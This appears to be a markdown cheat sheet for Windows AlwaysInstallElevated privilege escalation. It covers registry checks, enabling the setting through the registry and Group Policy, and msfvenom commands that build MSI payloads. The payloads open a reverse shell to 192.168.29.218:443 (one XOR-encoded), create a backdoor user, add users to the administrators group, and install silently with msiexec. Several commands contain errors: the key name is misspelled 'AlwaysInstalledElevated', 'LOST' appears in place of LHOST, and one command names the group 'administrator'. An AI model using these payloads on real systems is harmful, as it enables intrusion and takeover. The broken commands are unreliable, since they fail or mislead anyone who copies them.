 If both the **HKCU** (Current user) and **HKLM** (local machine) registry keys are set to ``0x1``, windows allows MSI files to be installed with **SYSTEM privileges**, leading to **local privilege escalation**

---

### Check Vulnerability status 

```cmd
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstalledElevated
```

```cmd
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstalledElevated
```

---

### Set the key (if you have permission)

```cmd
reg add HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstalledElevated /t REG_DWORD /d 1 /f
```

```cmd
reg add HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstalledElevated /t REG_DWORD /d 1 /f
```

---

### Group Policy Configuration for AlwaysInstallElevated

The ``AlwaysInstalledElevated`` setting can be enabled via **Group Policy Editor(gpedit.msc)**. When enabled for both the **Computer** and **User** configurations, that allows ``.msi`` files to be installed with **elevated SYSTEm privileges**, which can be exploited for local privilege escalation.

#### Enable Policy in Computer Configuration

navigated to following path

```cmd
Local Computer Policy > 
    Computer Configuration > 
        Administrative Templates > 
            Windows Components > 
                Windows Installer > 
                    Always install with elevated privileges.
```

* set this policy to ``Enabled``

---

#### Enable Policy in User Configuration

```cmd
Local Computer Policy > 
    User Configuration > 
        Administrative Templates > 
            Windows Components > 
                Windows Installer > 
                    Always install with elevated privileges.
```

* set this policy to ``Enabled``

```cmd
gpupdate /force
```

---

### ``msfvenom`` Payload Generation for AlwaysInstallElevated Exploitation

#### Reverse Shell Payload (Platform: windows/ Architecture : x64)

* Basic reverse shell payloas as MSI

```cmd
msfvenom -p windows/shell/reverse_tcp LOST=192.168.29.218 LPORT=443 -f msi -o setup.msi
```

* XOR encoded reverse shell, executed via msi

```cmd
msfvenom --platform windows --arch x64 --payload windows/shell/reverse_tcp LOST=192.168.29.218 LPORT=443 --encoder x64/xor --iteration 9 -f msi --out AlwaysInstallElevated.msi
```

---

#### Command Execution Payload (Run Local Commands)

* add user 'test' to local administrator group

```cmd
msfvenom -p windows/exec CMD='net localgroup administrators test /add' -f msi -o setup.msi
```

*   Create a new user DevNull with Password 'Password@123'

```cmd
msfvenom -p windows/exec CMD='net user DevNull Password@123 /add' -f msi -o setup.msi
```

* Add existing user 'DevNull' to administrators group

```cmd
msfvenom -p windows/exec CMD='net localgroup administrator DevNull /add' -f msi -o setup.msi
```

* Install MSI package via command prompt

```cmd
msiexec /quiet /qn /i update.msi
```

|Option|Meaning| 
|-----|--------|
|msiexec| Windows Installer command line tool|
|/i| Specifies the MSI file to install (in this case ``update.msi``)|
|/quiet|Runs the installer with **no user interface** (fully silent)|
|/qn| Equivalent to ``/quiet``, explicitly sets UI level to "no UI"|

